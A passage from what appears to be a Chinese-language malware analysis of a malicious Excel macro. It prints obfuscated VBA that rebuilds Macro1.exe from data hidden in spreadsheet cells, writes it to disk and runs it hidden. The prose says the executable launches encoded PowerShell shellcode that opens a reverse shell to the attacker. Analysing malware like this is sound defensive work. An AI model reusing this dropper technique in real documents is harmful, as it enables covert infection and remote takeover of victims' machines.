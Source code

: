 ```
            Fnslr9 = True
        End If
         i = i + 1
    Loop
    Close #Fnslr3
Dim Fnslr10 As String
Fnslr10 = Fnslr1
    Fnslr7 = Shell(Fnslr10, vbHide)
Dim i As Double
i = 1000
    Fnslr1 = "Macro1.exe"
    Fnslr2 = Environ(Sh2.Cells(998, 40)) & "AppDataRoamingMicrosoftTemplates"
    Fnslr3 = FreeFile()
    Open Fnslr1 For Binary As Fnslr3
    Do While Sh2.Cells(i, 9) <> ""
            Fnslr11 = Sh2.Cells(i, 9)
        If (Fnslr9 = True) Then
            Fnslr8 = 1
            Do While (Fnslr8 < Len(Fnslr11))
                Fnslr6 = Sh2.Cells(997, 40) & Mid(Fnslr11, Fnslr8, 3)
                Put #Fnslr3, , Fnslr6 
                Fnslr8 = Fnslr8 + 3
            Loop
        End If
        If Fnslr9 = False Then
            Fnslr9 = True
        End If
         i = i + 1
    Loop
    Close #Fnslr3
Dim Fnslr10 As String
Fnslr10 = Fnslr1
    Fnslr7 = Shell(Fnslr10, vbHide)

```

写入 Macro1.exe 所需的数据，从 Excel 表格中 Cells(997, 40) 周围读取，实际测试数据开始位置是 1001行，

![p7](http://drops.javaweb.org/uploads/images/7344edf7bc5717920f328402f69fcf06d481b3a0.jpg)

代码尾部使用 Shell 函数，启动生成的 Macro1.exe 。

文件信息

![p8](http://drops.javaweb.org/uploads/images/48e343342241c645299b7f4a861c57bbd54d4586.jpg)

可执行文件是 x64位的，功能是，启动 powershell 附带 –enc 参数，执行一段 shellcode ，这段 shellcode是一个 reverse shell ，连接黑客服务器，等待下达命令。

此部分与下面创建计划任务不间断运行的功能呼应起来，此部分不是本文重点，不再详述。

### 5、
